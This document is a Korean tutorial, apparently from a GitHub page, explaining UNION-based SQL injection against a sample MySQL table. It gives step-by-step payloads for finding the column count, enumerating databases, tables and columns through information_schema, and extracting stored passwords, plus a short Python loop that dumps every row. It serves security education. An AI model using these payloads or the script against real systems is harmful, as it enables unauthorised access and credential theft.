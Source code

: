 # UNION Based sql injection 

__예시 mysql 환경__

```sql
database name -> user

table name -> UserDB

columns -> id, pw

mysql[user]>SELECT * FROM UserDB;

+-------+------------+
| id    | pw         |
+-------+------------+
| admin | passwd     |
| guest | aaa        |
| aaaaa | a          |
+-------+------------+

```

__예시 id 검색__

```sql
SELECT * FROM UserDB WHERE id='';
```


### UNION sql injection 이란?

데이터 베이스에 우리가 입력한 임의의 값으로 요청한다면 해당 임의의 값을 조작하여 UNION 연산자를 이용해 정보를 빼오는 기법이다.

__예시__

```sql
SELECT * FROM UserDB WHERE id='';
```

해당 sql query로 id Column에 값을 입력받는다면

UNION Sql injection 공격을 통해

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';
```

이런식으로 union select (원하는 출력값) 이런 형식으로 요청을 하여 데이터 정보를 노출시킨다.

__UNION 연산자는 앞에 써져있는 쿼리의 컬럼 개수와 일정해야지 출력이 가능하다.__

만약에

```sql
SELECT id FROM UserDB id='' union select 1,2 --'';
```

union는 출력되는 컬럼 개수가 같아야지만 사용 가능하다.

하지만 위의 쿼리처럼 처음 select 에서는 id 즉 하나의 열만 출력하는데 
union select에서는 1,2를 출력하면서 2개의 행을 출력하게 되버린다.

근데 union 연산자는 행이 같아야지만 가능하기때문에 에러를 뱉을것이다.

위의 쿼리에서 union을 이용하기 위해서는

```sql
SELECT id FROM UserDB id='' union select 1 --''; 
```

이처럼 열의 개수에 따라 union 연산자를 만족시켜야된다.

* * *
<br>


### UNION Sql injection Columns Number

__union sql injection를 이용하여 컬럼 개수를 찾이 위해서는__

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5,6 --'';
```

이처럼 무차별로 대입을 하여 해당 쿼리에서 출력할려는 컬럼 개수가 몇개있는지 유추함으로서 원하는 정보를 빼네올 수 있다.

* * *
<br>

### UNION Sql injection GET DATABASE Name

DATABASE 이름을 가져오기 위해서는

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT database(),2 --'';
```

이런식으로 database() 함수를 이용하여 데이터가 바로 노출시킬 수 있다.

하지만 해당 데이터베이스가아닌 모든 데이터베이스 이름을 빼오고 싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (select DISTINCT table_schema from information_schema.tables limit 0,1),2 --'';
```

이처럼
 
```sql
select DISTINCT table_schema from information_schema.tables limit 0,1;
```
위의 키워드를 이용하여 모든 데이터베이스 이름을 뽑아올 수 있다.

만약에 위의 union sql injection가 성공했다면
limit 0,1 를

limit 1,1
limit 2,1
limit 3,1.... 이런식으로 무차별로 대입을 시킨 후 정보를 빼온다.

* * *
<br>

### UNION Sql injection GET TABLE Name

만약 자신이 원하는 데이터베이스의 테이블을 가져오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1),2 --'';
```

위처럼 DATABASE NAME 부분에 TABLE NAME을 얻고싶은 데이터베이스 이름을 넣으면 된다.

모든 테이블 이름을 얻고 싶다면 limit 0,1 을 

```sql
limit 1,1 
limit 2,1
limit 3,1
limit 4,1....
```

이런식으로 원하는 열의 테이블을 뽑아올 수 있다.

하지만 모든 테이블의 이름을 빼오고싶다면

```sql
(SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1)
에서 where 를 제거하여
(SELECT table_name FROM information_schema.tables limit 0,1)
```
이런식으로 모든 테이블 뽑아오는것이 가능하다.

* * *
<br>

### UNION Sql injection GET Columns Name

만약 자신이 원하는 테이블의 컬럼을 가져오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT column_name FROM information_schema.columns WHERE table_name='table name' limit 0,1),2 --'';
```

위처럼 table name에 자신이 원하는 테이블의 컬럼을 하나씩 뽑아올 수 있다.

만약 모든 컬럼을 뽑아오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT column_name FROM information_schema.columns limit 0,1),2 --'';
```

WHERE 만 없어주면은 가능하다.

### UNION Sql injection GET Columns Deta

자신이 원하는 테이블의 데이터를 빼오기 위해서는 사전에

테이블 이름과 컬럼 이름 정보가 필요하다 해당 정보를 얻는법은 위에있으니 참고하면 된다.

만약에 테이블 , 컬럼 이름을 알고있다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT id FROM UserDB limit 0,1),(SELECT pw FROM UserDB limit 0,1) --'';
```

이런식으로 () 안에 자신이 원하는 테이블의 데이터를 뽑아 정보를 탈취할 수 있다.

* * *
<br>

### UNION Sql injection GET Version

데이터베이스의 버전 정보를 얻기위해서는 아주 간단하다.

version() 또는 @@version 를 이용하면 가능하다.

예로

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT @@version,2 --'';
SELECT * FROM UserDB WHERE id='' UNION SELECT version(),2 --'';
```

이처럼 자신이 사용하고있는 데이터베이스의 버전을 쉽게 탈취할 수 있다.

### UNION Sql injection python script

만약에 union sql injection를 이용하더라도 모든 데이터를 뽑아오고 싶을 경우에는

예로 게시판에 자신이 원하는 union sql injection 를 이용하여 데이터를 노출시킬 수 있다면

python 으로 간단하게 가능하다.

```py
import requests
for i in range(1,100):
    r = requests.get(url = f"url?id='' UNION SELECT (SELECT id FROM UserDB limit {i},1),(SELECT pw FROM UserDB limit {i},1)")
    print(r.text)
```

이런식으로 limit n,n 을 이용하셔 for 를 돌리면서 1씩 늘리고 자신이 원하는 모든 데이터를 뽑아올 수 있다.

테이블 , 컬럼 , 데이터베이스는 위의 python 스크립트에서 select id from userdb 부분만 자신이 원하는 구문으로 바꾸면 된다.